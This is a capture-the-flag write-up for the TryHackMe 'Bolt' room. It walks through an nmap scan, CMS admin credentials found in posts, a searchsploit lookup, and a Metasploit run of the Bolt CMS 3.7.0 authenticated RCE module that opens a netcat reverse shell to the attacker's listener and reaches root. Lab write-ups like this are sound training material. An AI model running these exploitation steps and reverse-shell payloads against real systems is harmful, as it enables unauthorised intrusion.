


# TryHackMe: Bolt (Write-up)

<a src="https://tryhackme.com/room/bolt">Bolt</a> is a TryHackMe CTF. It has a focus on the Bolt CMS. We will be exploiting a remote code execution vulnerability.

## Task 1

### 1# Start the machine

The step is pretty explanatory. Run the VM.

## Task 2

### 1#  What port number has a web server with a CMS running?

To determine the port numbers that're exposed on the web server I'll run an nmap scan.

```shell
kali@kali:~$ nmap -T5 -A 10.10.8.119
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-21 16:00 EDT
Warning: 10.10.8.119 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.8.119
Host is up (0.028s latency).
Not shown: 882 closed ports, 115 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8000/tcp open  http    (PHP 7.2.32-1)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Mon, 21 Sep 2020 20:00:43 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Mon, 21 Sep 2020 20:00:43 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 06b10e
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 21 Sep 2020 20:00:43 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Mon, 21 Sep 2020 20:00:43 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 26ee20
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
|_http-generator: Bolt
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Bolt | A hero is unleashed
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.80%I=7%D=9/21%Time=5F69066A%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,28D5,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Mon,\x2021\x20Sep\x20
SF:2020\x2020:00:43\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP
SF:/7\.2\.32-1\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20pu
SF:blic,\x20s-maxage=600\r\nDate:\x20Mon,\x2021\x20Sep\x202020\x2020:00:43
SF:\x20GMT\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nX-Debug-Toke
SF:n:\x2026ee20\r\n\r\n<!doctype\x20html>\n<html\x20lang=\"en-GB\">\n\x20\
SF:x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"u
SF:tf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20name=\"viewport\"\x20
SF:content=\"width=device-width,\x20initial-scale=1\.0\">\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<title>Bolt\x20\|\x20A
SF:\x20hero\x20is\x20unleashed</title>\n\x20\x20\x20\x20\x20\x20\x20\x20<l
SF:ink\x20href=\"https://fonts\.googleapis\.com/css\?family=Bitter\|Roboto
SF::400,400i,700\"\x20rel=\"stylesheet\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/bulma\.css\
SF:?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"styleshe
SF:et\"\x20href=\"/theme/base-2018/css/theme\.css\?6cb66bfe9f\">\n\x20\x20
SF:\x20\x20\t<meta\x20name=\"generator\"\x20content=\"Bolt\">\n\x20\x20\x2
SF:0\x20\t<link\x20rel=\"canonical\"\x20href=\"http://0\.0\.0\.0:8000/\">\
SF:n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body\x20class=\"front\">\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20")%r(FourOhFourRequest,16C3,"HTTP/1
SF:\.0\x20404\x20Not\x20Found\r\nDate:\x20Mon,\x2021\x20Sep\x202020\x2020:
SF:00:43\x20GMT\r\nConnection:\x20close\r\nX-Powered-By:\x20PHP/7\.2\.32-1
SF:\+ubuntu18\.04\.1\+deb\.sury\.org\+1\r\nCache-Control:\x20private,\x20m
SF:ust-revalidate\r\nDate:\x20Mon,\x2021\x20Sep\x202020\x2020:00:43\x20GMT
SF:\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\npragma:\x20no-cache
SF:\r\nexpires:\x20-1\r\nX-Debug-Token:\x2006b10e\r\n\r\n<!doctype\x20html
SF:>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial
SF:-scale=1\.0\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<title>Bolt\x20\|\x20A\x20hero\x20is\x20unleashed</title>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<link\x20href=\"https://fonts\.googleapis\
SF:.com/css\?family=Bitter\|Roboto:400,400i,700\"\x20rel=\"stylesheet\">\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/
SF:theme/base-2018/css/bulma\.css\?8ca0842ebb\">\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/theme/base-2018/css/them
SF:e\.css\?6cb66bfe9f\">\n\x20\x20\x20\x20\t<meta\x20name=\"generator\"\x2
SF:0content=\"Bolt\">\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20<body>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<a\x20href=\"#main-content\"\x20class=\"v
SF:is");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.72 seconds
```
We can see the nmap scan returns services on:
- 22, SSH
- 80, HTTP (with Apache default page)
- 8000, HTTP (with Bolt installed)

### 2# What username can we find in the CMS?

On browsing to that target host on port 8000, there are some posts visible. They're written by _Jake_, the Admin. In the first post he includes his username.

```
bolt
```

See page:
```shell
http://10.10.8.119:8000/entry/message-from-admin
```

### 3# What is the password we can find for the username?

On '_message for IT department_' page the password is present. 

```
boltadmin123
```

### 4#  What version of the CMS is installed on the server? (Ex: Name 1.1.1)

To determine the version I searched all posts and dove into page source. However, nothing was immediately returned.

At this point, I turned automated directory enumeration to see if any default files are left behind leaving some point toward the version of Bolt being used.

However, it was by reading the [Bolt documentation on logging in](https://docs.bolt.cm/3.7/manual/login) that revealed another potential vector for pulling information.

```
http://10.10.8.119:8000/bolt/login
```
The above URl allows us to login into the website. And take advantage of the credentials we pulled earlier.



```
bolt:boltadmin123
```

Following the login here, we can see the CMS' dashboard, with the version shown; 3.7.1.



### 5# There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

We can find this by using SearchSploit.

```
kali@kali:~$ searchsploit Bolt CMS
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                               |  Path
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Bolt CMS 3.6.10 - Cross-Site Request Forgery                                                                                                 | php/webapps/47501.txt
Bolt CMS 3.6.4 - Cross-Site Scripting                                                                                                        | php/webapps/46495.txt
Bolt CMS 3.6.6 - Cross-Site Request Forgery / Remote Code Execution                                                                          | php/webapps/46664.html
Bolt CMS 3.7.0 - Authenticated Remote Code Execution                                                                                         | php/webapps/48296.py
Bolt CMS < 3.6.2 - Cross-Site Scripting                                                                                                      | php/webapps/46014.txt
CMS Bolt - Arbitrary File Upload (Metasploit)                                                                                                | php/remote/38196.rb
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Bolt CMS 3.6.6 - Cross-Site Request Forgery / Remote Code Execution                                                                          | php/webapps/46664.html
There are no exploit specifically for 3.7.1, the version we found earlier. But there _is_ one for 3.7.1, a minor release prior that may not have patched the 3.7.0 exploit. The exploit db ID is the numeric name of the exploit file name, 48296.

### 6# Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)

Lets find an exploit in Metasploit.

```shell
msf5 > search edb:48296

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/webapp/bolt_authenticated_rce  2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
```

### 7# Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit.

```shell
msf5 > use 0
[*] Using configured payload cmd/unix/reverse_netcat
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts 10.10.8.119
rhosts => 10.10.8.119
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set lhost tun0
lhost => tun0
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set username bolt
username => bolt
msf5 exploit(unix/webapp/bolt_authenticated_rce) > set password boltadmin123
password => boltadmin123
msf5 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 10.11.8.219:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "lbbtn".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file cpluqrsj.php.
[+] Deleted file plgjmnjttp.php.
[+] Used token f59556e1921741a11cde23c4f0 to create caqaiurjjz.php.
[*] Attempting to execute the payload via "/files/caqaiurjjz.php?lbbtn=`payload`"
[*] Command shell session 1 opened (10.11.8.219:4444 -> 10.10.8.119:55382) at 2020-09-21 16:48:55 -0400
[!] No response, may have executed a blocking payload!
[+] Deleted file caqaiurjjz.php.
[+] Reverted user profile back to original state.

whoami
root
```

### 8# Look for flag.txt inside the machine.

I'll run a simple find command, as we're root; running cat against any found file.

```
find / -type f -name "flag.txt" -exec cat {} \;
THM{[redacted]]}
```


